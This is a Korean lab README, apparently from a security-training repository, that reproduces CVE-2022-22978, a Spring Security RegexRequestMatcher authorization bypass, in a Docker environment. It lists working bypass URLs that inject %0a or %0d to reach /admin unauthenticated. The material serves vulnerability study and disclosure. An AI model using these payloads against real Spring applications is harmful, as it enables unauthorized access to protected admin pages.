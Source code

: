 

# Spring Security RegexRequestMatcher 인증 우회 취약점 (CVE-2022-22978)

화이트햇 스쿨 3기(17반) -  [박성현](https://github.com/sh1220)
</br>
https://github.com/sh1220/kr-vulhub/tree/main/Spring/CVE-2022-22978
</br>

Spring Security 프레임워크는 Spring 프레임워크에서 보안 인증 기능을 제공하는 데 사용됩니다.  
Spring Security 버전 5.5.6, 5.6.3 및 그 이하의 지원되지 않는 버전들에서는,  
정규 표현식에 `.`(닷)을 사용하는 `RegexRequestMatcher`를 활용하는 애플리케이션이  
인증 우회(Authorization Bypass) 취약점에 노출될 수 있습니다.

 다시 말해 정규 표현식에 .을 포함하면, 일부 서블릿 컨테이너에서 인증 우회가 가능해집니다. 예를 들어, /admin/index와 같은 경로에 접근할 때 %0a(줄 바꿈 문자)를 삽입하여 /admin/%0aindex로 요청하면 인증 없이 접근이 허용될 수 있습니다.
 

## 참고 자료

- [Tanzu Security Advisory - CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)
- [GitHub - DeEpinGh0st/CVE-2022-22978](https://github.com/DeEpinGh0st/CVE-2022-22978)

## 취약점 환경 구축

아래 명령어를 실행하여 Spring Security 5.6.3을 기반으로 한 웹 애플리케이션을 시작합니다:

```bash
docker compose up -d
```
![](docker.png)

서버가 정상적으로 기동된 이후,
브라우저에서 <http://your-ip:8080/admin>로 접속합니다:

![](forbidden.png)

## 취약점 재현 방법

다음과 같이 요청을 보내면 인증 없이 관리자 페이지에 접근할 수 있습니다:
- http://your-ip:8080/admin/%0atest
- http://your-ip:8080/admin/%0dtest

우회에 성공하면 정상적으로 접근되는 화면이 나타납니다.

![](bypassed.png)